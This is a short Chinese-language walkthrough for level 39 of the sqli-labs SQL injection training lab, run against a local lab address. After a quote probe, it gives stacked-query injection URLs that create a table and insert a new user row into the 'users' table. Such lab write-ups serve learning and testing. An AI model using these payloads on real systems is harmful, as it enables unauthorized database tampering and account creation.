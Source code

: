 ```yaml
---
title: Less - 39
date: 2023-03-20T18:59:25Z
lastmod: 2023-03-20T19:05:18Z
---
```


# Less - 39

---

# 通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1'
```

​![image](assets/image-20230320190048-5oysj76.png)​

根据错误显示判断为数字型注入。这里我们就不讲使用union注入的方法，前面的关卡讲了很多union注入的方法，我们直接使用堆叠注入攻击

---

## 2、创建一个表

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1;create table test like users;--+
```

​![image](assets/image-20230320190302-mlsqgh1.png)​

​![image](assets/image-20230320190414-ty6sbx8.png)​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1;insert into users values(18,'cmx','cmx');--+
```

​![image](assets/image-20230320190459-cel5z5p.png)​

​![image](assets/image-20230320190518-w4phmbf.png)​

